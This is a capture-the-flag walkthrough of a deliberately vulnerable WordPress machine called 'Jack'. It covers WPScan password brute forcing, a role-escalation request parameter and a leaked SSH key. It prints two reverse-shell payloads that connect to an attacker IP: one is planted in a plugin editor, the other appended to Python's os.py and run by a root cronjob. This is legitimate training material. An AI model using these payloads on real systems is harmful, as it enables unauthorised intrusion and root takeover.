# Jack

### Nmap Scan

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3e:79:78:08:93:31:d0:83:7f:e2:bc:b6:14:bf:5d:9b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDgHGMuutSoQktLWJfDa8F4+zCvINuPv8+mL2sHPJmSfFDaQ3jlsxitYWH7FWdj3zPzXLW01aY+AySXW593T3XZpzCSAjm3ImnPtNTaQsbsdkgmhj8eZ3q9hPxU5UD5593K+/FDdIiN5xIBLegm6y0SAd3sRtpdrcpHpkqOIZvoCyJTV7ncbRY0gppvfTEObo2PiCtzh31gbaDPrJICPnDuuF5aWAUTeUMc0YcMYaB9cCvfVT6Y1Cdfh4IwMHslafXRhRt5tn5l47xR0xwd3cddUEez/CHxiNthNTgv+BSo+TPPciPAiCN3QGSqTcPQ74RvFiAznL2irkENq+Qws2A3
|   256 3a:67:9f:af:7e:66:fa:e3:f8:c7:54:49:63:38:a2:93 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLzJknVQsubSrZMKNLlNAP1HXXuXzhtAf24ScY17eIS03NfxjFwiSESz8xKwVcmbODQGc+b9PvepngTTGlVrMf4=
|   256 8c:ef:55:b0:23:73:2c:14:09:45:22:ac:84:cb:40:d2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG/WxvJRsI0dvT84mxR/y3AH3C8KP/1Njv4wP6DylZeQ

80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Jack&#039;s Personal Site &#8211; Blog for Jacks writing adven...
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: WordPress 5.3.2
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
```

---

### Website → Wordpress site



---

### WPScan

```bash
wpscan -e u,ap --url http://jack.thm
```

- Identified valid usernames during WPScan.



- There is a **`xmlrpc.php`** file, meaning we can leverage this to brute force a password.

---

### WPScan → Brute Force Password

```bash
sudo wpscan --url http://jack.thm -P /usr/share/wordlists/fasttrack.txt -U user.txt -t 4 --verbose
```

> **wendy:changelater**
> 

---

### Exploitation

- After logging into the dashboard, there isn’t much we can do to get a shell.

> After spending a lot of time, I finally decided to use a hint
> 

**Room Hint:**

> **Wpscan user enumeration, and don't use tools (ure_other_roles)**
> 

**Step 1:** Update the profile and use Burp Suite to proxy all traffic.

**Step 2**: Add `&ure_other_roles=administrator` to the end of the request.



- We can now access the site as admin.



- To get a revers shell we need to

**Step 1**: Go to Plugins → Plugin Editor 

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.4.0.252/1337 0>&1'");?>
```



> **Start Netcat listener**
> 

**Step 2:** Installed Plugins → Activate **`Akismet`** 





---

### USER FLAG

- user flag in home directory



> HINT in `reminder.txt` file
> 

```
Please read the memo on linux file permissions, last time your backups almost got us hacked! Jack will hear about this when he gets back.
```

- Find backup files using the `locate` command.

```bash
locate backups
```

- We found the `id_rsa` file in `/var/backups/`, so we can use it to SSH into Jack's account.
- Start a Python server to transfer the `id_rsa` file to our machine.

```bash
chmod 600 id_rsa
```

---

### Privilege Escalation

```bash
ssh -i id_rsa jack@10.10.100.149 
```



- Using **pspy**, we see that root runs a cronjob every minute.
- The script it runs is at `/opt/statuscheck/checker.py.`



- So far we now jack is a part of family group.

```bash
find / -group family 2>/dev/null
```

- We know that the script is using `os.system`, which indicates it is written in Python 2.7
- The jack is part of the family group which has the ability to write on any files under the `/usr/lib/python2.7/` directory.



- To exploit this, we add a reverse shell to the end of `/usr/lib/python2.7/os.py`

```python
import os,pty,socket;s=socket.socket();s.connect(("10.4.0.252",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")
```

> **Start Netcat listening and update the IP and port.**
> 



> **ROOT FLAG:**
> 

